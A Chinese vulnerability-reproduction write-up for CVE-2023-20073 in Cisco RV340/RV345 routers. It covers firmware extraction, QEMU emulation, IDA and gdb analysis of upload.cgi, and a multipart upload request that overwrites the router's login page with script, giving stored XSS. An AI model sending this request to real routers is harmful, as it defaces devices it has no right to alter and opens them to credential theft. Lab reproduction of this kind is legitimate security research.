# 思科企业级路由器漏洞 CVE-2023-20073复现-先知社区

> **来源**: https://xz.aliyun.com/news/18471  
> **文章ID**: 18471

---

### **漏洞介绍**

`Cisco RV340`，`RV340W`，`RV345`和 `RV345P` 四款型号的路由器中最新固件均存在一个未授权任意文件上传漏洞 ，攻击者可以在未授权的情况下将文件上传到 `/tmp/upload` 目录中，然后利用 `upload.cgi` 程序中存在的漏洞，最终造成存储型 `XSS` 攻击。

### **固件下载和分离**

固件下载地址:  
[Software Download - Cisco Systems](https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29)  


使用 `binwalk` 直接分解可能会报错无法分离, 需要安装下面工具

```
sudo apt-get update 
sudo apt install liblzo2-dev  
sudo pip3 install python-lzo
sudo pip3 install ubi_reader
sudo apt-get install lzop
```

安装完毕之后再使用指令进行分离

```
binwalk -Me RV34X-v1.0.03.29-2022-10-17-13-45-34-PM.img 
```

解压成功后进入下面文件夹中(需要进入很多文件夹, 可以直接复制下面这个路径)

```
<解压路径>/_RV34X-v1.0.03.29-2022-10-17-13-45-34-PM.img.extracted/_40.extracted/_fw.gz.extracted/_0.extracted/_openwrt-comcerto2000-hgw-rootfs-ubi_nand.img.extracted/ubifs-root/790534924/rootfs
```

进入 `rootfs` 就可以看到系统文件了  


随后我们可以进入 `/etc/init.d` 这个文件夹, 这里可以看到很多启动服务以及脚本, 其中就包括了 `nginx` 服务  


进入到 `rootfs` 下的 `/bin` 文件中

```
file busybox
```



我们可以得知路由器为 `32位` `小端序` `ARM架构`  
下面我们开始使用qemu模拟路由器真实环境

### **qemu仿真**

#### **配置网络**

先在 `Linux物理机` 中使用 `ifconfig` 命令,查看一下有没有 `br0`  


没有的话就执行下面指令创建一个(当然其实有没有这个br0也无所谓, 虚拟机打个快照, 下面的指令都试一遍不行就问问AI, 应该是可以解决网络问题的)

```
#!/bin/sh
#sudo ifconfig eth0 down                 # 首先关闭宿主机网卡接口
sudo brctl addbr br0                     # 添加一座名为 br0 的网桥
sudo brctl addif br0 ens33                # 在 br0 中添加一个接口
sudo brctl stp br0 off                   # 如果只有一个网桥，则关闭生成树协议
sudo brctl setfd br0 1                   # 设置 br0 的转发延迟
sudo brctl sethello br0 1                # 设置 br0 的 hello 时间
sudo ifconfig br0 0.0.0.0 promisc up     # 启用 br0 接口
sudo ifconfig ens33 0.0.0.0 promisc up    # 启用网卡接口
sudo dhclient br0                        # 从 dhcp 服务器获得 br0 的 IP 地址
sudo brctl show br0                      # 查看虚拟网桥列表
sudo brctl showstp br0                   # 查看 br0 的各接口信息
sudo tunctl -t tap0 -u root              # 创建一个 tap0 接口，只允许 root 用户访问
sudo brctl addif br0 tap0                # 在虚拟网桥中增加一个 tap0 接口
sudo ifconfig tap0 0.0.0.0 promisc up    # 启用 tap0 接口
sudo brctl showstp br0
```

然后执行下面这几个指令创建一个 `tap0`

```
sudo ip tuntap add dev tap0 mode tap user $(whoami)
sudo ip link set tap0 up
sudo ip link set tap0 master br0
```

如果本身就有 `br0`, 直接执行上面这三条指令即可

在下面地址中下载我们需要的的 `内核` 和 `镜像`  
[Index of /~aurel32/qemu/armhf](https://people.debian.org/~aurel32/qemu/armhf/)  
需要下载图中框中的三个文件  


下载后放入同一目录中, 并在目录下创建该执行脚本 `qemu_start.sh`

```
# qemu_start.sh
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress \
  -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
  -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no \
  -nographic -smp 4
```

可能出现下面报错  


```
alsa: Could not initialize DAC
alsa: Failed to open `default':
alsa: Reason: Host is down
alsa: Could not initialize DAC
alsa: Failed to open `default':
alsa: Reason: Host is down
audio: Could not create a backend for voice `lm4549.out'
qemu-system-arm: Invalid SD card size: 25 GiB
SD card size has to be a power of 2, e.g. 32 GiB.
You can resize disk images with 'qemu-img resize <imagefile> <new-size>'
(note that this will lose data if you make the image smaller than it currently is).
```

执行下面命令即可

```
qemu-img resize debian_wheezy_armhf_standard.qcow2 32G
```

随后再次启动 `qemu_start.sh`(没必要理会那个alsa的报错)  


可能需要等待10分钟左右,然后就会提示我们输入账号和密码, 这里账号和密码统一都是 `root`  


进入 `qemu虚拟机` 之后使用 `ifconfig` 可以查看到 `ip地址` , 不出意外的话应该和下面这个图中的情况差不多  


当然也有可能出现意外, 比如下面这个情况

```
root@debian-armhf:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN qlen 1000
    link/ether 52:54:00:12:34:56 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::5054:ff:fe12:3456/64 scope link 
       valid_lft forever preferred_lft forever
```

如果出现上面这个情况可以看看 `qemu虚拟机` 的 `/etc/network/interfaces` 的配置，看看里面的网卡是不是`eth0`  


```
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

# The loopback network interface
auto lo
iface lo inet loopback

# The primary network interface
allow-hotplug eth0
iface eth0 inet dhcp
```

如果这里不是 `eth0` 的话修改成 `eth0`，修改完毕之后保存 `重启qemu虚拟机` 后再次使用 `ifconfig` 查看  
如果是`eth0`并且还是没有 `ip` ，那么检查一下 `Linux物理机` 里面是否配置好了 `br0` 和 `tap0` 一般正常配置好了之后不会有什么问题

网络配置没有问题之后就可以把文件系统通过`ssh`，`scp`传到`qemu虚拟机`上了  
这里需要压缩之后传，不然可能出现软连接等问题

```
tar -czvf rootfs.tar.gz rootfs

sudo scp -o HostKeyAlgorithms=ssh-rsa -r rootfs.tar.gz root@192.168.52.128:/root/rootfs.tar.gz 

tar -xzvf rootfs.tar.gz
```

接下来进行仿真时要先用 `chroot` 命令创建隔离的文件系统环境。  
但这会导致无法在隔离的文件系统中访问原本的 `/proc`和 `/dev` 目录，因为它们是特殊的虚拟文件夹（用于提供系统信息和设备的访问）为了让 `qemu` 环境正常运行，需将原本 `qemu` 的 `/proc` 和 `/dev` 目录挂载到新创建的隔离环境中。

```
chmod -R 777 rootfs
cd rootfs/
mount --bind /proc proc
mount --bind /dev dev
chroot . /bin/sh
```

使用 `ls -la` 指令我们可以查看到图中的软连接  


然后依次执行下面四个指令(这里执行之前最好打个快照, 如果失败了可以返回然后调整之后再次尝试)

```
/etc/init.d/boot boot
generate_default_cert
/etc/init.d/confd start
/etc/init.d/nginx start
```

下面是执行每个指令大概可能得到的结果, 如果相差过大可能就无法仿真成功

```
/ # /etc/init.d/boot boot 
uci: Entry not found
uci: Entry not found
uci: Entry not found
mount: mounting debugfs on /sys/kernel/debug failed: No such file or directory
Mounting mnt partitions..mount: mounting /dev/mtdblock9 on /mnt/configcert failed: No such device
mount: mounting /dev/mtdblock10 on /mnt/avcsign failed: No such device
mount: mounting /dev/mtdblock11 on /mnt/webrootdb failed: No such device
mount: mounting /dev/mtdblock12 on /mnt/license failed: No such device
done.
cp: can't stat '/etc/ssl/private/*': No such file or directory
cp: can't stat '/tmp/.KEYS_DIR_TMP/*': No such file or directory
uci: Parse error (option/list command found before the first section) at line 2492, byte 1
 create_meta_data_xml begin
 meta_data_gen_state: 0
 meta_data_gen_state: 1
 create_meta_data_xml end


/ # generate_default_cert 
touch: /tmp/stats/certstats.tmp: No such file or directory
/usr/bin/certscript: line 1: can't create /tmp/stats/certstats.tmp: nonexistent directory
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
    LANGUAGE = (unset),
    LC_ALL = (unset),
    LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
cp: can't stat '/tmp/stats/certstats.tmp': No such file or directory
Default


/ # /etc/init.d/confd start 
TRACE Connected (maapi) to ConfD
attaching to init session...
TRACE MAAPI_ATTACH  --> CONFD_OK
TRACE MAAPI_DELETE /avc-meta-data --> CONFD_OK
TRACE MAAPI_LOAD_CONFIG_FILE  --> CONFD_OK
TRACE Connected (maapi) to ConfD
attaching to init session...
TRACE MAAPI_ATTACH  --> CONFD_OK
TRACE MAAPI_DELETE /device-os-types --> CONFD_OK
TRACE MAAPI_LOAD_CONFIG_FILE  --> CONFD_OK
TRACE Connected (maapi) to ConfD
attaching to init session...
TRACE MAAPI_ATTACH  --> CONFD_OK
TRACE MAAPI_DELETE /webfilter-meta-data --> CONFD_OK
TRACE MAAPI_LOAD_CONFIG_FILE  --> CONFD_OK
0
uci: Entry not found
0
uci: Entry not found
rm: can't remove '/tmp/update.sh': No such file or directory
uci: Entry not found
uci: Entry not found
uci: Parse error (option/list command found before the first section) at line 2492, byte 1
cp: can't stat '/tmp/etc/syslog_config_template': No such file or directory
sed: /tmp/syslog-ng.conf: No such file or directory
Error opening configuration file; filename='/tmp/syslog-ng.conf', error='Success (0)'
SIOCGMIIPHY: No such device
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
Failed to parse json data: unexpected end of data
Failed to connect to ubus
0
json_object_from_file: error reading file /tmp/webcache/dep: No such file or directory
PnP Agent is starting!
/ # uci: Entry not found

/ # /etc/init.d/nginx start 
chown: /var/firmware: No such file or directory
chown: /var/3g-4g-driver: No such file or directory
chown: /var/in_certs: No such file or directory
chown: /var/signature: No such file or directory
chown: /var/language-pack: No such file or directory
chown: /var/configuration: No such file or directory
FAILED: maapi_get_elem(ms, mtid, &val, argv[0]), Error: item does not exist (1): /firewall-basic-settings:firewall/remote-web-management/cert does not exist, in function do_maapi_get, line 1463
touch: /tmp/stats/certstats.tmp: No such file or directory
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
    LANGUAGE = (unset),
    LC_ALL = (unset),
    LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
cp: can't stat '/tmp/stats/certstats.tmp': No such file or directory
FAILED: maapi_get_elem(ms, mtid, &val, argv[0]), Error: item does not exist (1): /ciscosb-restconf:ciscosb-restconf/transport/https/cert does not exist, in function do_maapi_get, line 1463
touch: /tmp/stats/certstats.tmp: No such file or directory
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
    LANGUAGE = (unset),
    LC_ALL = (unset),
    LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
cp: can't stat '/tmp/stats/certstats.tmp': No such file or directory
FAILED: maapi_get_elem(ms, mtid, &val, argv[0]), Error: item does not exist (1): /ciscosb-netconf:ciscosb-netconf/transport/ssh/cert does not exist, in function do_maapi_get, line 1463
touch: /tmp/stats/certstats.tmp: No such file or directory
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
    LANGUAGE = (unset),
    LC_ALL = (unset),
    LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
cp: can't stat '/tmp/stats/certstats.tmp': No such file or directory
/ # [uWSGI] getting INI configuration from /etc/uwsgi/blockpage.ini
[uWSGI] getting INI configuration from /etc/uwsgi/jsonrpc.ini
[uWSGI] getting INI configuration from /etc/uwsgi/upload.ini
*** Starting uWSGI 2.0.15 (32bit) on [Thu Jul 17 16:25:20 2025] ***
compiled with version: 4.8.3 on 17 October 2022 13:32:49
*** Starting uWSGI 2.0.15 (32bit) on [Thu Jul 17 16:25:20 2025] ***
os: Linux-3.2.0-4-vexpress #1 SMP Debian 3.2.51-1
compiled with version: 4.8.3 on 17 October 2022 13:32:49
os: Linux-3.2.0-4-vexpress #1 SMP Debian 3.2.51-1
nodename: Router
nodename: Router
machine: armv7l
machine: armv7l
clock source: unix
clock source: unix
pcre jit disabled
pcre jit disabled
detected number of CPU cores: 4
*** Starting uWSGI 2.0.15 (32bit) on [Thu Jul 17 16:25:20 2025] ***
detected number of CPU cores: 4
compiled with version: 4.8.3 on 17 October 2022 13:32:49
current working directory: /
current working directory: /
os: Linux-3.2.0-4-vexpress #1 SMP Debian 3.2.51-1
detected binary path: /usr/sbin/uwsgi
detected binary path: /usr/sbin/uwsgi
nodename: Router
machine: armv7l
clock source: unix
pcre jit disabled
detected number of CPU cores: 4
current working directory: /
detected binary path: /usr/sbin/uwsgi
setgid() to 33
setgid() to 33
setuid() to 33
setgid() to 33
your processes number limit is 961
your memory page size is 4096 bytes
setuid() to 33
detected max file descriptor number: 1024
lock engine: pthread robust mutexes
your processes number limit is 961
your memory page size is 4096 bytes
setuid() to 33
your processes number limit is 961
thunder lock: disabled (you can enable it with --thunder-lock)
your memory page size is 4096 bytes
detected max file descriptor number: 1024
lock engine: pthread robust mutexes
detected max file descriptor number: 1024
lock engine: pthread robust mutexes
thunder lock: disabled (you can enable it with --thunder-lock)
thunder lock: disabled (you can enable it with --thunder-lock)
uwsgi socket 0 bound to TCP address 127.0.0.1:9003 fd 3
your server socket listen backlog is limited to 100 connections
your mercy for graceful operations on workers is 60 seconds
uwsgi socket 0 bound to TCP address 127.0.0.1:9000 fd 3
your server socket listen backlog is limited to 100 connections
your mercy for graceful operations on workers is 60 seconds
uwsgi socket 0 bound to TCP address 127.0.0.1:9001 fd 3
mapped 128512 bytes (125 KB) for 1 cores
your server socket listen backlog is limited to 100 connections
your mercy for graceful operations on workers is 60 seconds
*** Operational MODE: single process ***
initialized CGI path: /www/cgi-bin/upload.cgi
*** no app loaded. going in full dynamic mode ***
*** uWSGI is running in multiple interpreter mode ***
spawned uWSGI master process (pid: 4549)
mapped 321280 bytes (313 KB) for 4 cores
mapped 128512 bytes (125 KB) for 1 cores
spawned uWSGI worker 1 (pid: 4550, cores: 1)
*** Operational MODE: single process ***
initialized CGI mountpoint: /blocked.php = /www/cgi-bin/blockpage.cgi
*** no app loaded. going in full dynamic mode ***
*** uWSGI is running in multiple interpreter mode ***
*** Operational MODE: preforking ***
spawned uWSGI master process (pid: 4548)
initialized CGI mountpoint: /jsonrpc = /www/cgi-bin/jsonrpc.cgi
*** no app loaded. going in full dynamic mode ***
*** uWSGI is running in multiple interpreter mode ***
spawned uWSGI master process (pid: 4547)
spawned uWSGI worker 1 (pid: 4551, cores: 1)
spawned uWSGI worker 1 (pid: 4552, cores: 1)
spawned uWSGI worker 2 (pid: 4553, cores: 1)
spawned uWSGI worker 3 (pid: 4554, cores: 1)
spawned uWSGI worker 4 (pid: 4555, cores: 1)


```

执行完之后就可以打开浏览器访问了  


### **漏洞分析**

在 `/etc/nginx/conf.d/rest.url.conf` 文件中  
图中展示的红方框部分为 `Nginx文件` 上传模块  
  
下面是代码解析:

第13行 `location /api/operations/ciscosb-file:form-file-upload` 这里的 `location` 块是 `Nginx` 配置文件中用于匹配 `URL` 路径的指令，就比如访问`192.168.0.1：/api/operations/ciscosb-file:form-file-upload` 就可以进入其中执行其中的代码

第14-22行 这里的 `$http_authorization` 为空则会返回 `403` ,不为空那么就会继续执行下面的代码

而这里的 `$http_authorization` 是 `HTTP` 请求中 `Authorization` 的值,这在 `/etc/nginx/conf.d/proxy.conf` 文件中可以看出来  


第25-34行   
`upload_pass /form-file-upload` 转至后台处理 `/form-file-upload` 这个 `URL`  
`upload_store /tmp/upload` 上传文件临时保存路径为 `/tmp/upload`  
`upload_store_access user:rw group:rw all:rw` 表示上传文件的权限  
`upload_set_form_field` 设置额外的表单字段，一些变量如下。这块在最后编写 `EXP` 的时候有一个很重要的点，后面再说。  
`$upload_file_name` 文件原始名字`$upload_field_name` 表单的 `name` 值`$upload_content_type` 文件的类型`$upload_tmp_path` 文件上传后的地址  
`upload_aggregate_form_field` 额外的变量，在上传成功后生成这几个字段  
`$upload_file_md5` 文件的 `MD5` 校验值`$upload_file_size` 文件大小  
`upload_cleanup 400 404 499 500-505` 如果 `pass` 页面是以下状态码，就删除本次上传的文件

在 `/etc/nginx/conf.d/web.upload.conf` 文件的 `location /upload` 的代码中，做了 `/tmp/websession/token/$cookie_sessionid` 文件是否存在的判断以及正则匹配的检查防止目录穿越

接着会来到下面 `upload_pass /form-file-upload` 它会跳转到上面的 `location /form-file-upload` 这部分的代码继续执行, 这部分代码里面有 `uwsgi_pass 127.0.0.1:9003` ,它会把请求转发给 `uwsgi` 来处理  


在 `Nginx` 的启动脚本中最后一句是 `$UWSGI start` ，启动的就是这个 `uwsgi` 服务，它启动后会开启下面三个进程, 如下图(`/usr/bin/uwsgi-launcher` )  


`uwsgi -m --ini /etc/uwsgi/upload.ini &` 在这个进程中会调用 `upload.cgi` 进程，调用的方式是先 `fork` 了一个子进程，然后 `execvp` 来执行 `upload.cgi`

`/etc/uwsgi/upload.ini` 文件内容如下  


这里可以确定漏洞的出发点就位于 `/www/cgi-bin/upload.cgi` 文件中  
下面我们开始分析这个 `upload.cgi` 文件

#### **upload.cgi程序漏洞分析**

使用IDA分析, 这里我使用的IDA版本为9.0,分析的时候是可以直接找到 `main函数的`,如果使用低版本找不到main函数的话就需要先找到  `_libc_start_main函数` 然后它的第一个参数就是 `main函数`

在 `main函数` 中调用了 `sub_115EC函数`   


在 `sub_115EC函数` 中我们可以找到漏洞点, 下面的 `system` 最终会执行 `mv -f a2 v8/a3` 而通过这三个变量其实我们都可以控制(其实就是调用函数时候传入的参数)



`/www/login.html` 软链接到了 `/tmp/www/login.html` 因此如果我们能把 `a2` 控制为刚上传的文件路径，`v8` 控制为 `/tmp/www` ，`a3` 控制为 `login.html` 就能执行 `mv -f /tmp/upload/xxx /www/login.html` 从而完成对路由器登录界面的篡改。

要将 `v8` 控制为 `/tmp/www` 则要设置 `a1` 的值为 `Portal`

让我们回到 `main函数` 观察代码  
  
得到下面结论

```
v29 -> v16 -> 这是刚上传的文件路径
v30 -> v17 -> 需要控制为 Portal
v31 -> v18 -> 需要控制为 login.html

v19 = sub_115EC(v17, v16, v18);
```

#### **动态分析**

动态调试来需要下载对应的`gdbserver`  
下载地址如下  
[gdb-static-cross/prebuilt/gdbserver-7.7.1-armhf-eabi5-v1-sysv at master · stayliv3/gdb-static-cross](https://github.com/stayliv3/gdb-static-cross/blob/master/prebuilt/gdbserver-7.7.1-armhf-eabi5-v1-sysv)

这里还有一个问题，就是`upload.cgi`的调用几乎是一瞬间的，要想对其调试就需要做一些修改  
修改方案是将 `0x10E0C` 地址处的 `BL getenv` 修改为 `BL 0x10E0c`  
把二进制文件的跳转变成跳转到自身，当调用`upload.cgi`就会一直卡在这里, 然后我们在调试的时候改回来即可



将修改好的 `upload.cgi` 和 我们下载的 `gdbserver-7.7.1-armel-eabi5-v1-sysv` 一起传入 `qemu虚拟机` 中, 并将 `qemu虚拟机` 中 `/root/rootfs/www/cgi-bin/upload.cgi` 备份好后删除, 将我们 `patch` 过的 `upload.cgi` 放入其中  
指令如下

```
cd /root/rootfs/www/cgi-bin/
mv upload.cgi upload.bak.cgi
cp <修改过的upload.cgi的文件地址> ./
chmod 777 upload.cgi   # 这一步很重要不能漏, 否则后面会失败
```

然后使用浏览器访问登入界面, 右键网页,选择 `检查`   
使用 `Hackbar` 插件来进行传参(建议使用谷歌或火狐, 浏览器插件商城里面直接搜Hackbar就有)  
URL填写 `https://<IP>/api/operations/ciscosb-file:form-file-upload`  
还有这里的 `Authorization` 和 `Cookie` 必须要填写  


Body内容如下(内容来源于wimmt师傅的博客)

```
Portal
------------------------------------
Content-Disposition: form-data; name="fileparam"

login.html
------------------------------------
Content-Disposition: form-data; name="file"; filename="login.html"
Content-Type: application/octet-stream

<title>Hacked by XiDP!</title>
<script>alert('Hacked by XiDP!')</script>
------------------------------------
Content-Disposition: form-data; name="pathparam"

Portal
------------------------------------
Content-Disposition: form-data; name="fileparam"

login.html
------------------------------------
Content-Disposition: form-data; name="file"; filename="login.html"
Content-Type: application/octet-stream

<title>Hacked by XiDP!</title>
<script>alert('Hacked by XiDP')</script>
------------------------------------
```

​

然后设置好后点击 `EXECUTE` 就可以发送  


然后我们执行 `ps` 命令就可以看到 `qemu虚拟机` 中有了 `upload.cgi` 的运行(如果上面没有执行 `chmod` 那条指令, 这里的 `upload.cgi` 可能就不是 `www-data` 而是 `root` 那么后续就会失败)  


在调试之前我们还需要修改一个地方  
将 `qemu虚拟机` 中 `rootf` 文件下的 `/etc/uwsgi/upload.ini` 中的 `cgi-timeout` 的值修改的大一点,不然调试一半就显示 `timeout`



下面在 `qemu虚拟机` 中启动gdb-server

```
./gdbserver-7.7.1-armel-eabi5-v1-sysv 0.0.0.0:1234 --attach PID
```

调试脚本(写在 `Linux物理机` 中, 别整 `qemu虚拟机` 里面了)

```
# mygdb.sh
set architecture arm
set endian little
set detach-on-fork off
file ./www/cgi-bin/upload.cgi
target remote 192.168.52.128:1234

b *0x00010E10
b *0x000110D8
b *0x00011764
```

运行指令 `gdb-multiarch -x mygdb.sh` 程序会运行到我们所设置的死循环的地方  




下面我们需要手动将这个死循环的地方修改掉, 修改成原本的模样, 在gdb中使用下面这个指令

```
set *0x10e0c=0xebffffaa
```

虽然打了很多断点, 但是一个个讲解有点麻烦, 这里直接执行到 `system` 处,可以看到system所执行的指令  


调试结束后最后得到的效果如图所示  


这里我们再打开一个新的页面访问路由器登入页面就可以发现这里的登入页面已经被我们修改了  


用windows访问也是相同效果  


想要恢复的话只需要重新启动一下路由器服务就行

到此本次漏洞复现算是完成了

参考:  
[思科企业级路由器0day漏洞挖掘（水漏洞版） - IOTsec-Zone](https://www.iotsec-zone.com/article/383)  
[[原创]从零开始复现 CVE-2023-20073-智能设备-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-278240.htm#msg_header_h1_5)  
[从零开始复现CVE-2023-20073-先知社区](https://xz.aliyun.com/news/18276)
